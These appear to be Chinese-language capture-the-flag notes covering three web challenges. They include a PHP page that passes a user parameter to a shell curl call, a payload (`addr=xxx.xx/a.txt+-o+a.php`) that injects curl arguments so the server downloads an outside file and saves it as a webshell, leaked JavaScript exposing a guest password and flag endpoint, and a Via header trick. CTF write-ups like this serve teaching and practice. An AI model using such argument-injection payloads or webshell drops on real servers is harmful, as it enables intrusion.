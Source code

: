 - > 只记录非常规题
- # ctf_curl
	- 这题不是RCE，直接用curl从服务器上面下webshell就好了
	- 题目
		- ```php
		  <?php
		  highlight_file('index.php');
		  // curl your domain
		  // flag is in /tmp/Syclover
		  
		  if (isset($_GET['addr'])) {
		      $address = $_GET['addr'];
		      if(!preg_match("/;|f|:|\||\&|!|>|<|`|\(|{|\?|\n|\r/i", $address)){
		          $result = system("curl ".$address."> /dev/null");
		      } else {
		          echo "Hacker!!!";
		      }
		  }
		  ?>
		  ```
	- payload: `/?addr=xxx.xx/a.txt+-o+a.php`
- # flag 保卫战
	- 信息泄漏
		- ```js
		  
		      // 访客密码  password 123456
		      // /flag?pass=123456
		      $(document).ready(function() {
		          $('#loginForm').on('submit', function(e) {
		              e.preventDefault();
		              const username = $('#username').val();
		              const password = $('#password').val();
		              $.ajax({
		                  url: '/login',  // your login API endpoint
		                  type: 'POST',
		                  contentType: 'application/json',
		                  data: JSON.stringify({
		                      'username': username,
		                      'password': password
		                  }),
		                  success: function(data, textStatus, xhr) {
		                      if (xhr.status === 200) {
		                          // handle successful login here
		                          window.location.href = "/upload";
		                      }
		                  },
		                  error: function(xhr, textStatus, error) {
		                      if (xhr.status === 401) {
		                          document.getElementById("error-message").textContent = "用户名或密码错误";
		                      }
		                  }
		              });
		          });
		      });
		  
		  ```
- # EzHttp
	- 代理的HTTP header: `Via: xxx.com`